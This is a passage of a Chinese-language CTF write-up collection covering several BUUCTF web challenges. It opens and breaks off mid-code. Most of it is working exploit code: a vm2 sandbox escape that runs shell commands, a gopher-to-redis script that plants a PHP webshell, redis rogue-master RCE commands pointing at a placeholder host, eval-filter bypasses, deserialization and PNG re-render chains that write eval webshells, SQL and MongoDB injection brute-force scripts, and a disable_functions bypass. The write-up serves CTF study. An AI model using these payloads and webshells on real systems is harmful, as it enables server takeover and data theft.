        res.send(fs.readFileSync(__filename).toString());
    }
});

app.listen(3000, function() {
    console.log("listening on port 3000!");
});
```

vm2 沙箱逃逸

这里有个很明显的问题, 因为题目并没有判断 `req.query.data` 具体是什么类型, 所以我们可以传一个 `?data[]=xxx`, 使它变成 Array, 然后 `req.query.data.length` 的结果就是 1, 绕过了长度限制, 后面在执行 `vm.run(req.query.data)` 时会将 `data` 隐式转换为 String, 这时候它的值就变成了 `xxx`

payload

[https://github.com/patriksimek/vm2/issues/225](https://github.com/patriksimek/vm2/issues/225)

```
http://4eb6eeb9-e40e-402c-89cc-d343be49f4dc.node4.buuoj.cn:81/?data[]=(function(){
        TypeError.prototype.get_process = f=>f.constructor("return process")();
        try{
                Object.preventExtensions(Buffer.from("")).a = 1;
        }catch(e){
                return e.get_process(()=>{}).mainModule.require("child_process").execSync("cat /app/config.js").toString();
        }
})()
```

然后看 wp 的时候发现了一个非常蛋疼的事情: 这条 issue 是 2019 年的, 但是题目是 2016 年的... 所以算是非预期了

[https://blog.z3ratu1.cn/%E5%88%B7%E9%A2%98%E5%88%B7%E9%A2%98.html](https://blog.z3ratu1.cn/%E5%88%B7%E9%A2%98%E5%88%B7%E9%A2%98.html)

[https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md](https://github.com/ChALkeR/notes/blob/master/Buffer-knows-everything.md)

大概意思就是远古版本 nodejs 在使用 Buffer 时为其分配的内存没有被初始化, 也就是说可能蹦出来之前的内容 (? 不太懂)

```python
import requests
import re

while True:
    res = requests.get('http://4eb6eeb9-e40e-402c-89cc-d343be49f4dc.node4.buuoj.cn:81/?data[]=Buffer(9999)')
    print(res.text)
    flag = re.findall('flag\{[a-f0-9\-]*\}', res.text)
    if flag:
        print(flag)
        break
```


## [网鼎杯 2020 玄武组]SSRFMe

```php
<?php
function check_inner_ip($url)
{
    $match_result=preg_match('/^(http|https|gopher|dict)?:\/\/.*(\/)?.*$/',$url);
    if (!$match_result)
    {
        die('url fomat error');
    }
    try
    {
        $url_parse=parse_url($url);
    }
    catch(Exception $e)
    {
        die('url fomat error');
        return false;
    }
    $hostname=$url_parse['host'];
    $ip=gethostbyname($hostname);
    $int_ip=ip2long($ip);
    return ip2long('127.0.0.0')>>24 == $int_ip>>24 || ip2long('10.0.0.0')>>24 == $int_ip>>24 || ip2long('172.16.0.0')>>20 == $int_ip>>20 || ip2long('192.168.0.0')>>16 == $int_ip>>16;
}

function safe_request_url($url)
{

    if (check_inner_ip($url))
    {
        echo $url.' is inner ip';
    }
    else
    {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        $output = curl_exec($ch);
        $result_info = curl_getinfo($ch);
        if ($result_info['redirect_url'])
        {
            safe_request_url($result_info['redirect_url']);
        }
        curl_close($ch);
        var_dump($output);
    }

}
if(isset($_GET['url'])){
    $url = $_GET['url'];
    if(!empty($url)){
        safe_request_url($url);
    }
}
else{
    highlight_file(__FILE__);
}
// Please visit hint.php locally.
?>
```

简单 ssrf

```
http://df898ce0-1665-47c8-9681-f5fc0750fff5.node4.buuoj.cn:81/?url=http://0.0.0.0/hint.php
```


用 gopher 打 redis, 简单写个脚本

```python
def urlencode(data):
    enc_data = ''
    for i in data:
        h = str(hex(ord(i))).replace('0x', '')
        if len(h) == 1:
            enc_data += '%0' + h.upper()
        else:
            enc_data += '%' + h.upper()
    return enc_data

payload = '''auth root
flushall
set k WEBSHELL
config set dir /var/www/html
config set dbfilename shell.php
save
quit'''

redis_payload = ''

for i in payload.split('\n'):
    arg_num = '*' + str(len(i.split(' ')))
    redis_payload += arg_num + '\r\n'
    for j in i.split(' '):
        arg_len = '$' + str(len(j))
        redis_payload += arg_len + '\r\n'
        redis_payload += j + '\r\n'

webshell = "<?php system($_GET[1]);?>"

redis_payload = redis_payload.replace('$8\r\nWEBSHELL', '$' + str(len(webshell)) + '\r\n' + webshell)

gopher_payload = 'gopher://0.0.0.0:6379/_' + urlencode(redis_payload)

print(gopher_payload)
```

burp 发送前需要再 urlencode 一次 (或者直接在脚本中再加一次 urlencode)


看 wp 的时候发现还是非预期了... buu 环境配置有问题

正解应该是 redis 主从复制 rce (4.x - 5.x)

[https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

[https://inhann.top/2021/09/14/redis_master_slave_rce/](https://inhann.top/2021/09/14/redis_master_slave_rce/)

[https://www.cnblogs.com/xiaozi/p/13089906.html](https://www.cnblogs.com/xiaozi/p/13089906.html)

redis 在主从复制时 slave 与 master 的通信如下

```bash
SLAVEOF 192.168.100.1 21000
+OK
PING
+PONG
REPLCONF listening-port 6379
+OK
REPLCONF capa eof capa psync2
+OK
PSYNC <40-bytes-data>
+FULLRESYNC <40-bytes-data> <raw-data>
```

可以看到 master 最后向 slave 发送 FULLRESYNC 执行全量同步的时候会带上 master 的 rdb 数据库 (raw data)

这时我们把 raw data 改成其它文件来发送, 就可以达到任意文件写的效果

本地用 poc 简单抓个包


然后 redis 从 4.0 开始支持导入自定义 module, 所以我们可以利用自定义的 module 来执行任意命令或者反弹 shell

[https://github.com/Dliv3/redis-rogue-server](https://github.com/Dliv3/redis-rogue-server)

[https://github.com/n0b0dyCN/RedisModules-ExecuteCommand](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand)

整体思路就是先伪造主从复制的数据包将 `exp.so` 这个 redis module 传到目标机环境上, 再执行 `module load /path/to/exp.so` 导入 module, 最后调用 module 中的自定义函数执行命令

```bash
config set dir /tmp
config set dbfilename exp.so
slaveof x.x.x.x yyyy
slaveof no one
module load /tmp/exp.so
system.exec 'whoami'
```

大致就是这样, 但是 buu 的环境死活打不通, vps 根本没有连接传进来, 本地测试倒是没有任何问题...

## [NPUCTF2020]验证🐎

```javascript
const express = require('express');
const bodyParser = require('body-parser');
const cookieSession = require('cookie-session');

const fs = require('fs');
const crypto = require('crypto');

const keys = require('./key.js').keys;

function md5(s) {
  return crypto.createHash('md5')
    .update(s)
    .digest('hex');
}

function saferEval(str) {
  if (str.replace(/(?:Math(?:\.\w+)?)|[()+\-*/&|^%<>=,?:]|(?:\d+\.?\d*(?:e\d+)?)| /g, '')) {
    return null;
  }
  return eval(str);
} // 2020.4/WORKER1 淦，上次的库太垃圾，我自己写了一个

const template = fs.readFileSync('./index.html').toString();
function render(results) {
  return template.replace('{{results}}', results.join('<br/>'));
}

const app = express();

app.use(bodyParser.urlencoded({ extended: false }));
app.use(bodyParser.json());

app.use(cookieSession({
  name: 'PHPSESSION', // 2020.3/WORKER2 嘿嘿，给👴爪⑧
  keys
}));

Object.freeze(Object);
Object.freeze(Math);

app.post('/', function (req, res) {
  let result = '';
  const results = req.session.results || [];
  const { e, first, second } = req.body;
  if (first && second && first.length === second.length && first!==second && md5(first+keys[0]) === md5(second+keys[0])) {
    if (req.body.e) {
      try {
        result = saferEval(req.body.e) || 'Wrong Wrong Wrong!!!';
      } catch (e) {
        console.log(e);
        result = 'Wrong Wrong Wrong!!!';
      }
      results.unshift(`${req.body.e}=${result}`);
    }
  } else {
    results.unshift('Not verified!');
  }
  if (results.length > 13) {
    results.pop();
  }
  req.session.results = results;
  res.send(render(req.session.results));
});

// 2019.10/WORKER1 老板娘说她要看到我们的源代码，用行数计算KPI
app.get('/source', function (req, res) {
  res.set('Content-Type', 'text/javascript;charset=utf-8');
  res.send(fs.readFileSync('./index.js'));
});

app.get('/', function (req, res) {
  res.set('Content-Type', 'text/html;charset=utf-8');
  req.session.admin = req.session.admin || 0;
  res.send(render(req.session.results = req.session.results || []))
});

app.listen(80, '0.0.0.0', () => {
  console.log('Start listening')
});
```

前面 first second 用 js 弱类型绕过没什么好说的

后面的正则限制了代码只能以 `Math.xx()` `123.123()` 这种形式来调用, 不能用 `Math.a.b()`, 而且限制了一堆符号, 不能用单双引号和反引号

参考文章: [https://alexzhong22c.github.io/2017/08/08/js-proto/](https://alexzhong22c.github.io/2017/08/08/js-proto/)

思路就是先通过 constructor 获得 Function 对象来定义函数, 然后利用弱类型得到 `String.fromCharCode` 方法绕过单双引号限制, 最后利用逗号运算符让表达式从左到右依次执行, 并用 IIFE 的形式调用函数


之后还有一个问题, 因为 eval 默认使用当前上下文的命名空间来执行语句, 所以为了不让程序其他部分调用 Math 不出问题, 需要把这一串操作再套到一个箭头函数里面 (常规的匿名函数用法含有 function 关键字, 绕不过正则)

```javascript
return global.process.mainModule.constructor._load('child_process').execSync('cat /flag')
```

```javascript
((Math)=>(Math=Math+1,Math=Math.constructor,Math.x=Math.constructor,Math.x(Math.fromCharCode(114,101,116,117,114,110,32,103,108,111,98,97,108,46,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,99,111,110,115,116,114,117,99,116,111,114,46,95,108,111,97,100,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41))()))(Math)
```


## [CISCN2021 Quals]upload

index.php

```php
<?php
if (!isset($_GET["ctf"])) {
    highlight_file(__FILE__);
    die();
}

if(isset($_GET["ctf"]))
    $ctf = $_GET["ctf"];

if($ctf=="upload") {
    if ($_FILES['postedFile']['size'] > 1024*512) {
        die("这么大个的东西你是想d我吗？");
    }
    $imageinfo = getimagesize($_FILES['postedFile']['tmp_name']);
    if ($imageinfo === FALSE) {
        die("如果不能好好传图片的话就还是不要来打扰我了");
    }
    if ($imageinfo[0] !== 1 && $imageinfo[1] !== 1) {
        die("东西不能方方正正的话就很讨厌");
    }
    $fileName=urldecode($_FILES['postedFile']['name']);
    if(stristr($fileName,"c") || stristr($fileName,"i") || stristr($fileName,"h") || stristr($fileName,"ph")) {
        die("有些东西让你传上去的话那可不得了");
    }
    $imagePath = "image/" . mb_strtolower($fileName);
    if(move_uploaded_file($_FILES["postedFile"]["tmp_name"], $imagePath)) {
        echo "upload success, image at $imagePath";
    } else {
        die("传都没有传上去");
    }
}
```

example.php

```php
<?php
if (!isset($_GET["ctf"])) {
    highlight_file(__FILE__);
    die();
}

if(isset($_GET["ctf"]))
    $ctf = $_GET["ctf"];

if($ctf=="poc") {
    $zip = new \ZipArchive();
    $name_for_zip = "example/" . $_POST["file"];
    if(explode(".",$name_for_zip)[count(explode(".",$name_for_zip))-1]!=="zip") {
        die("要不咱们再看看？");
    }
    if ($zip->open($name_for_zip) !== TRUE) {
        die ("都不能解压呢");
    }

    echo "可以解压，我想想存哪里";
    $pos_for_zip = "/tmp/example/" . md5($_SERVER["REMOTE_ADDR"]);
    $zip->extractTo($pos_for_zip);
    $zip->close();
    unlink($name_for_zip);
    $files = glob("$pos_for_zip/*");
    foreach($files as $file){
        if (is_dir($file)) {
            continue;
        }
        $first = imagecreatefrompng($file);
        $size = min(imagesx($first), imagesy($first));
        $second = imagecrop($first, ['x' => 0, 'y' => 0, 'width' => $size, 'height' => $size]);
        if ($second !== FALSE) {
            $final_name = pathinfo($file)["basename"];
            imagepng($second, 'example/'.$final_name);
            imagedestroy($second);
        }
        imagedestroy($first);
        unlink($file);
    }

}
```

根据 example.php 的内容可以看出思路应该是先利用 index.php 上传 zip 文件,  然后去 example.php 解压缩, 最后绕过 png 二次渲染保存 php 文件至 /example 目录

[https://www.php.net/manual/zh/function.mb-strtolower](https://www.php.net/manual/zh/function.mb-strtolower)


`mb_strtolower('İ')` 的结果就是 `i`'

然后是 png 二次渲染绕过脚本

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);


$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>
```

利用 xbm 图片的文件头可以绕过图片长宽限制 (实际上放在文件尾也能成功)

```
#define width 1
#define height 1
```

压缩后把上面这段内容插到 zip 注释里面


`İ` 需要 urlencode 一次, 因为 burp 会自动规范化某些字符


最后 system 执行命令写一个 eval 马, 然后蚁剑连上去找 flag


## [XDCTF 2015]filemanager

`www.tar.gz` 源码泄露, 下面只贴关键代码

common.inc.php

```php
<?php

$DATABASE = array(

	"host" => "127.0.0.1",
	"username" => "root",
	"password" => "ayshbdfuybwayfgby",
	"dbname" => "xdctf",
);

$db = new mysqli($DATABASE['host'], $DATABASE['username'], $DATABASE['password'], $DATABASE['dbname']);
$req = array();

foreach (array($_GET, $_POST, $_COOKIE) as $global_var) {
	foreach ($global_var as $key => $value) {
		is_string($value) && $req[$key] = addslashes($value);
	}
}

define("UPLOAD_DIR", "upload/");

function redirect($location) {
	header("Location: {$location}");
	exit;
}
```

upload.php

```php
<?php
    
require_once "common.inc.php";

if ($_FILES) {
	$file = $_FILES["upfile"];
	if ($file["error"] == UPLOAD_ERR_OK) {
		$name = basename($file["name"]);
		$path_parts = pathinfo($name);

		if (!in_array($path_parts["extension"], array("gif", "jpg", "png", "zip", "txt"))) {
			exit("error extension");
		}
		$path_parts["extension"] = "." . $path_parts["extension"];

		$name = $path_parts["filename"] . $path_parts["extension"];

		// $path_parts["filename"] = $db->quote($path_parts["filename"]);
		// Fix
		$path_parts['filename'] = addslashes($path_parts['filename']);

		$sql = "select * from `file` where `filename`='{$path_parts['filename']}' and `extension`='{$path_parts['extension']}'";

		$fetch = $db->query($sql);

		if ($fetch->num_rows > 0) {
			exit("file is exists");
		}

		if (move_uploaded_file($file["tmp_name"], UPLOAD_DIR . $name)) {

			$sql = "insert into `file` ( `filename`, `view`, `extension`) values( '{$path_parts['filename']}', 0, '{$path_parts['extension']}')";
			$re = $db->query($sql);
			if (!$re) {
				print_r($db->error);
				exit;
			}
			$url = "/" . UPLOAD_DIR . $name;
			echo "Your file is upload, url:
                <a href=\"{$url}\" target='_blank'>{$url}</a><br/>
                <a href=\"/\">go back</a>";
		} else {
			exit("upload error");
		}

	} else {
		print_r(error_get_last());
		exit;
	}
}
```

rename.php

```php
<?php

require_once "common.inc.php";

if (isset($req['oldname']) && isset($req['newname'])) {
	$result = $db->query("select * from `file` where `filename`='{$req['oldname']}'");
	if ($result->num_rows > 0) {
		$result = $result->fetch_assoc();
	} else {
		exit("old file doesn't exists!");
	}

	if ($result) {

		$req['newname'] = basename($req['newname']);
		$re = $db->query("update `file` set `filename`='{$req['newname']}', `oldname`='{$result['filename']}' where `fid`={$result['fid']}");
		if (!$re) {
			print_r($db->error);
			exit;
		}
		$oldname = UPLOAD_DIR . $result["filename"] . $result["extension"];
		$newname = UPLOAD_DIR . $req["newname"] . $result["extension"];
		if (file_exists($oldname)) {
			rename($oldname, $newname);
		}
		$url = "/" . $newname;
		echo "Your file is rename, url:
                <a href=\"{$url}\" target='_blank'>{$url}</a><br/>
                <a href=\"/\">go back</a>";
	}
}
?>
```

rename.php 里面有一句很明显存在二次注入

```php
$db->query("update `file` set `filename`='{$req['newname']}', `oldname`='{$result['filename']}' where `fid`={$result['fid']}");
```

注入点 `$result['filename']` 对应着上传时去除后缀的文件名

思路是利用二次注入重命名图片为 php 后缀

但这里有一个问题, 上面代码中的 `$oldname` 后缀是从上一次的查询中取出的, 一旦修改了 extension 之后就会出现 `$oldname` 与实际已经上传的 filename 不对应的情况, 所以需要连带着 filename 字段也给改一下

payload

```
1',`filename`='1.jpg',`extension`=''#.jpg

oldname=1',`filename`='1.jpg',`extension`=''#&newname=1

oldname=1.jpg&newname=1.php
```

第一行是上传文件的 filename, 后面两行是在上传之后提交给 rename.php 的参数


## [羊城杯 2020]EasySer

```
http://52a0f5af-085b-43d9-b812-4175ce0815e3.node4.buuoj.cn:81/index.php
http://52a0f5af-085b-43d9-b812-4175ce0815e3.node4.buuoj.cn:81/robots.txt
http://52a0f5af-085b-43d9-b812-4175ce0815e3.node4.buuoj.cn:81/star1.php
http://52a0f5af-085b-43d9-b812-4175ce0815e3.node4.buuoj.cn:81/star1.php?path=http://127.0.0.1/ser.php
```

ser.php

```php
<?php
error_reporting(0);
if ( $_SERVER['REMOTE_ADDR'] == "127.0.0.1" ) {
    highlight_file(__FILE__);
} 
$flag='{Trump_:"fake_news!"}';

class GWHT{
    public $hero;
    public function __construct(){
        $this->hero = new Yasuo;
    }
    public function __toString(){
        if (isset($this->hero)){
            return $this->hero->hasaki();
        }else{
            return "You don't look very happy";
        }
    }
}
class Yongen{ //flag.php
    public $file;
    public $text;
    public function __construct($file='',$text='') {
        $this -> file = $file;
        $this -> text = $text;
        
    }
    public function hasaki(){
        $d   = '<?php die("nononon");?>';
        $a= $d. $this->text;
         @file_put_contents($this-> file,$a);
    }
}
class Yasuo{
    public function hasaki(){
        return "I'm the best happy windy man";
    }
}

?>
```

payload

```php
<?php

class GWHT{
    public $hero;

    public function __toString(){
        if (isset($this->hero)){
            return $this->hero->hasaki();
        }else{
            return "You don't look very happy";
        }
    }
}
class Yongen{ //flag.php
    public $file;
    public $text;

    public function hasaki(){
        $d   = '<?php die("nononon");?>';
        $a= $d. $this->text;
         @file_put_contents($this-> file,$a);
    }
}

$b = new Yongen();
$b->file = "php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php";
$b->text = base64_encode('<?php eval($_REQUEST[1]);?>');

$a = new GWHT();
$a->hero = $b;

echo urlencode(serialize($a));

?>
```

参数找了大半天, 看 wp 才发现是 `c`

```
http://52a0f5af-085b-43d9-b812-4175ce0815e3.node4.buuoj.cn:81/star1.php?path=http://127.0.0.1/&c=O%3A4%3A%22GWHT%22%3A1%3A%7Bs%3A4%3A%22hero%22%3BO%3A6%3A%22Yongen%22%3A2%3A%7Bs%3A4%3A%22file%22%3Bs%3A77%3A%22php%3A%2F%2Ffilter%2Fwrite%3Dstring.strip_tags%7Cconvert.base64-decode%2Fresource%3Dshell.php%22%3Bs%3A4%3A%22text%22%3Bs%3A36%3A%22PD9waHAgZXZhbCgkX1JFUVVFU1RbMV0pOz8%2B%22%3B%7D%7D
```

```
http://52a0f5af-085b-43d9-b812-4175ce0815e3.node4.buuoj.cn:81/shell.php?1=system('cat /ffflag');
```

翻了下原题 ser.php 末尾是有注释的, 不知道什么情况

```php
/*$c=$_GET['c'];
echo $x=unserialize($c);*/
```

## [2021祥云杯]Package Manager 2021

有 csp + bot + report to admin 页面, 一开始猜测是 xss

```
Content-Security-Policy: default-src 'none';style-src 'self' 'sha256-GQNllb5OTXNDw4L6IIESVZXrXdsfSA9O8LeoDwmVQmc=';img-src 'self';form-action 'self';base-uri 'none';
```

然后这个 csp 死活绕不过

最后发现其实是 mongodb 注入

/routes/index.ts

```javascript
......
router.post('/auth', async (req, res) => {
	let { token } = req.body;
	if (token !== '' && typeof (token) === 'string') {
		if (checkmd5Regex(token)) {
			try {
				let docs = await User.$where(`this.username == "admin" && hex_md5(this.password) == "${token.toString()}"`).exec()
				console.log(docs);
				if (docs.length == 1) {
					if (!(docs[0].isAdmin === true)) {
						return res.render('auth', { error: 'Failed to auth' })
					}
				} else {
					return res.render('auth', { error: 'No matching results' })
				}
			} catch (err) {
				return res.render('auth', { error: err })
			}
		} else {
			return res.render('auth', { error: 'Token must be valid md5 string' })
		}
	} else {
		return res.render('auth', { error: 'Parameters error' })
	}
	req.session.AccessGranted = true
	res.redirect('/packages/submit')
});
......
```

/utils.ts

```javascript
......
const checkmd5Regex = (token: string) => {
  return /([a-f\d]{32}|[A-F\d]{32})/.exec(token);
}
......
```

有一个名字是 flag 的 package, 但只有 admin 才能查看

/auth 路由会验证 token, 其实就是 md5 加密后的 password, 但是因为 checkmd5Regex 这个函数在匹配 md5 格式的时候没有加上 `^` `$` 限定开头和结尾, 所以导致随便输入一串符合条件的字符串, 再加上自定义的 mongodb 语句就可以绕过限制产生注入

参考文章: [https://forum.butian.net/share/474](https://forum.butian.net/share/474)

payload

```javascript
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" ^ 0 ^ "

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" ^ this.password[0]=="xxx" ^ "
```

```python
import requests
import time
import json
import re
from urllib.parse import quote

flag = ''

for i in range(99999):
    for s in range(32, 127):
        time.sleep(0.02)
        print(chr(s))
        url = 'http://2cafdae6-2166-4617-9aea-ef75772f5d47.node4.buuoj.cn:81/auth'
        if chr(s) == '\\' or chr(s) == '"':
            payload = 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" ^ this.password[{}]=="{}" ^ "'.format(i, '\\' + chr(s))
        else:
            payload = 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" ^ this.password[{}]=="{}" ^ "'.format(i, chr(s))
        data = {
            '_csrf': 'OEnroHPF-czkmcP9BmJAhkp306-LRMDKWRSA',
            'token': payload
        }
        cookies = {'session': 's%3AI4rcQHje8htnOu1zrBMCCEkq5pqbmJ0D.ouGFBMeRcqwu7LXLcDxzfpm%2B385Ik6JLkl4jEVfY4Rs'}
        res = requests.post(url, data=data, cookies=cookies, allow_redirects=False)
        if res.status_code == 302:
            flag += chr(s)
            print('found!!!', flag)
            break
```

跑出来密码为 `!@#&@&@efefef*@((@))grgregret3r`


看 wp 发现一种报错注入的方式

```javascript
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa" ^ (()=>{throw Error(this.password)})() ^ "
```

还有一种 xsleaks 的解法

[https://www.scuctf.com/ctfwiki/web/9.xss/xsleaks/](https://www.scuctf.com/ctfwiki/web/9.xss/xsleaks/)

## [蓝帽杯 2021]One Pointer PHP

user.php

```php
<?php
class User{
	public $count = '9223372036854775806';
}
?>
```

add\_api.php

```php
<?php
include "user.php";
if($user=unserialize($_COOKIE["data"])){
	$count[++$user->count]=1;
	if($count[]=1){
		$user->count+=1;
		setcookie("data",serialize($user));
	}else{
		eval($_GET["backdoor"]);
	}
}else{
	$user=new User;
	$user->count=1;
	setcookie("data",serialize($user));
}
?>
```

关键在于使 `$count[]=1` 报错, 从而进入 else 块执行 eval 后门

查了一圈发现考点是 php 数组溢出, 其实本质上是个 bug (?)

[https://www.php.net/manual/zh/language.types.integer.php](https://www.php.net/manual/zh/language.types.integer.php)

[https://stackoverflow.com/questions/18286066/next-element-is-already-occupied-error](https://stackoverflow.com/questions/18286066/next-element-is-already-occupied-error)

[https://bugs.php.net/bug.php?id=47836](https://bugs.php.net/bug.php?id=47836)

[https://github.com/php/php-src/tree/PHP-7.2.10/Zend/tests/bug47836.phpt](https://github.com/php/php-src/tree/PHP-7.2.10/Zend/tests/bug47836.phpt)

```
--TEST--
Bug #47836 (array operator [] inconsistency when the array has PHP_INT_MAX index value)
--FILE--
<?php

$arr[PHP_INT_MAX] = 1;
$arr[] = 2;

var_dump($arr);
?>
--EXPECTF--
Warning: Cannot add element to the array as the next element is already occupied in %s on line 4
array(1) {
  [%d]=>
  int(1)
}
```

payload

```php
<?php
class User{
	public $count = '9223372036854775806';
}

echo urlencode(serialize(new User()));
?>
```

shell 连上去发现 `disable_functions` 禁止了一堆, 而且 `open_basedir` 也有限制

利用蚁剑的 `PHP7_UserFilter` bypass


suid


直接运行会使用默认的 php.ini (包含 `disable_functions` 和 `open_basedir` 限制), 所以这里指定 `-n` 参数让它不依赖任何 ini 配置文件运行

```bash
php -r "echo file_get_contents('/flag');" -n
```


然后看 wp 的时候发现还是非预期了 (躺)

预期解是攻击 php-fpm 绕过 `disable_functions`, 利用 `ini_set()` 绕过 `open_basedir`

后者好像在 buu 的环境下没有起到任何作用....

参考文章如下

[https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html](https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html)

[https://tttang.com/archive/1775](https://tttang.com/archive/1775)

[https://www.php.net/manual/zh/install.fpm.configuration.php](https://www.php.net/manual/zh/install.fpm.configuration.php)

[https://www.php.net/manual/zh/ini.core.php](https://www.php.net/manual/zh/ini.core.php)

因为 `file_get_contents()` 不支持 gopher 协议, 而且 fsocksopen 被禁用了, curl 扩展甚至都没安装, 所以只能利用 ftp 被动模式配合它来转发 fastcgi 数据包

翻一下 nginx 配置文件得到 php-fpm 地址为 `127.0.0.1:9001`

稍微改一下 p 牛的脚本

```python
import socket
import random
import sys
from io import BytesIO
from six.moves.urllib import parse as urlparse

# Referrer: https://github.com/wuyunfeng/Python-FastCGI-Client

PY2 = True if sys.version_info.major == 2 else False


def bchr(i):
    if PY2:
        return force_bytes(chr(i))
    else:
        return bytes([i])

def bord(c):
    if isinstance(c, int):
        return c
    else:
        return ord(c)

def force_bytes(s):
    if isinstance(s, bytes):
        return s
    else:
        return s.encode('utf-8', 'strict')

def force_text(s):
    if issubclass(type(s), str):
        return s
    if isinstance(s, bytes):
        s = str(s, 'utf-8', 'strict')
    else:
        s = str(s)
    return s


class FastCGIClient:
    """A Fast-CGI Client for Python"""

    # private
    __FCGI_VERSION = 1

    __FCGI_ROLE_RESPONDER = 1
    __FCGI_ROLE_AUTHORIZER = 2
    __FCGI_ROLE_FILTER = 3

    __FCGI_TYPE_BEGIN = 1
    __FCGI_TYPE_ABORT = 2
    __FCGI_TYPE_END = 3
    __FCGI_TYPE_PARAMS = 4
    __FCGI_TYPE_STDIN = 5
    __FCGI_TYPE_STDOUT = 6
    __FCGI_TYPE_STDERR = 7
    __FCGI_TYPE_DATA = 8
    __FCGI_TYPE_GETVALUES = 9
    __FCGI_TYPE_GETVALUES_RESULT = 10
    __FCGI_TYPE_UNKOWNTYPE = 11

    __FCGI_HEADER_SIZE = 8

    # request state
    FCGI_STATE_SEND = 1
    FCGI_STATE_ERROR = 2
    FCGI_STATE_SUCCESS = 3

    def __init__(self, host, port, timeout, keepalive):
        self.host = host
        self.port = port
        self.timeout = timeout
        if keepalive:
            self.keepalive = 1
        else:
            self.keepalive = 0
        self.sock = None
        self.requests = dict()

    def __connect(self):
        # self.sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        # self.sock.settimeout(self.timeout)
        # self.sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        # # if self.keepalive:
        # #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 1)
        # # else:
        # #     self.sock.setsockopt(socket.SOL_SOCKET, socket.SOL_KEEPALIVE, 0)
        # try:
        #     self.sock.connect((self.host, int(self.port)))
        # except socket.error as msg:
        #     self.sock.close()
        #     self.sock = None
        #     print(repr(msg))
        #     return False
        return True

    def __encodeFastCGIRecord(self, fcgi_type, content, requestid):
        length = len(content)
        buf = bchr(FastCGIClient.__FCGI_VERSION) \
               + bchr(fcgi_type) \
               + bchr((requestid >> 8) & 0xFF) \
               + bchr(requestid & 0xFF) \
               + bchr((length >> 8) & 0xFF) \
               + bchr(length & 0xFF) \
               + bchr(0) \
               + bchr(0) \
               + content
        return buf

    def __encodeNameValueParams(self, name, value):
        nLen = len(name)
        vLen = len(value)
        record = b''
        if nLen < 128:
            record += bchr(nLen)
        else:
            record += bchr((nLen >> 24) | 0x80) \
                      + bchr((nLen >> 16) & 0xFF) \
                      + bchr((nLen >> 8) & 0xFF) \
                      + bchr(nLen & 0xFF)
        if vLen < 128:
            record += bchr(vLen)
        else:
            record += bchr((vLen >> 24) | 0x80) \
                      + bchr((vLen >> 16) & 0xFF) \
                      + bchr((vLen >> 8) & 0xFF) \
                      + bchr(vLen & 0xFF)
        return record + name + value

    def __decodeFastCGIHeader(self, stream):
        header = dict()
        header['version'] = bord(stream[0])
        header['type'] = bord(stream[1])
        header['requestId'] = (bord(stream[2]) << 8) + bord(stream[3])
        header['contentLength'] = (bord(stream[4]) << 8) + bord(stream[5])
        header['paddingLength'] = bord(stream[6])
        header['reserved'] = bord(stream[7])
        return header

    def __decodeFastCGIRecord(self, buffer):
        header = buffer.read(int(self.__FCGI_HEADER_SIZE))

        if not header:
            return False
        else:
            record = self.__decodeFastCGIHeader(header)
            record['content'] = b''
            
            if 'contentLength' in record.keys():
                contentLength = int(record['contentLength'])
                record['content'] += buffer.read(contentLength)
            if 'paddingLength' in record.keys():
                skiped = buffer.read(int(record['paddingLength']))
            return record

    def request(self, nameValuePairs={}, post=''):
        if not self.__connect():
            print('connect failure! please check your fasctcgi-server !!')
            return

        requestId = random.randint(1, (1 << 16) - 1)
        self.requests[requestId] = dict()
        request = b""
        beginFCGIRecordContent = bchr(0) \
                                 + bchr(FastCGIClient.__FCGI_ROLE_RESPONDER) \
                                 + bchr(self.keepalive) \
                                 + bchr(0) * 5
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_BEGIN,
                                              beginFCGIRecordContent, requestId)
        paramsRecord = b''
        if nameValuePairs:
            for (name, value) in nameValuePairs.items():
                name = force_bytes(name)
                value = force_bytes(value)
                paramsRecord += self.__encodeNameValueParams(name, value)

        if paramsRecord:
            request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, paramsRecord, requestId)
        request += self.__encodeFastCGIRecord(FastCGIClient.__FCGI_TYPE_PARAMS, b'', requestId)

        if post:
